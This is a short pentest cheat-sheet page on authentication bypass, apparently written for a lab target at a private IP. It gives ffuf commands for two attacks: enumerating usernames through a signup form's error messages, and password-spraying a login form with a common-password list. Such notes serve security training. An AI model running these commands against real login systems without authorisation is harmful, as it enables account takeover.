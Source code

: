 ```yaml
---
description: Bypass logins and authentication systems
---
```


# Authentication Bypass

## Username Enumeration

On any signup/signin page having a username and password, we can first intercept any signup/signin requests and perform username enumeration, if we get error messages "like username already exists", or, "password for this username is wrong".

#### using ffuf

{% code overflow="wrap" %}
```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.32.200/customers/signup -mr "username already exists"
```
{% endcode %}

### Password spray

Once we know the username we can try out password spray attacks.

{% code overflow="wrap" %}
```bash
ffuf -w username.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.32.200/customers/login -fc 200 
```
{% endcode %}
